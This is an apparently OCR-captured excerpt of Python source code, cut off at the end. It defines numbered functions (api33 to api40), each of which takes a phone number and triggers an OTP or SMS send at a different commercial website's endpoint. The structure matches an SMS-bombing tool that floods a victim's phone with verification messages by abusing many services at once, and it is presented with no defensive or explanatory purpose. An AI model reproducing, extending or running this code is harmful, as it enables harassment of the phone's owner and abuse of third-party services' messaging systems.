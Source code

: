     

def api33(phone):

    get(f"https://laopun.com/send-sms?id={phone}&otp=5153",headers=header)

    

def api34(phone):

    post("https://jdbaa.com/api/otp-not-captcha", data={"phone_number":phone})

    

def api35(phone):

    post("https://www.carsome.co.th/website/login/sendSMS", headers=header, json={"username":phone,"optType":0}).json()

    

def api36(phone):

    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.684",headers=header,json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone":phone,"type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName":"ฟงฟง ฟงฟว"}})

    

def api37(phone):

    post("https://u.icq.net/api/v65/rapi/auth/sendCode", json={"reqId":"39816-1633012470","params":{"phone": phone,"language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})

    

def api38(phone):

    post("https://api.1112delivery.com/api/v1/otp/create", data={'phonenumber': phone,'language': "th"})

    

def api39(phone):

    post("https://gccircularlivingshop.com/sms/sendOtp", json={"grant_type":"otp","username": phone,"password":"","client":"ecommerce"},headers={})

    

def api40(phone):

    headers={

        "organizationcode": "lifestyle",

        "content-type": "application/json"

        }

    json = {"operationName":"sendOtp","variables":{"input":{"mobileNumber": phone,"phoneCode":"THA-66"}},"query":"mutation sendOtp($input: SendOTPInput!) {\n  sendOTPRegister(input: $input) {\n    token\n    otpReference\n    expirationOn\n    __typename\n  }\n}\n"}

    post("https://graph.firster.com/graphql",headers=headers,json=json)

    

def api41(phone):
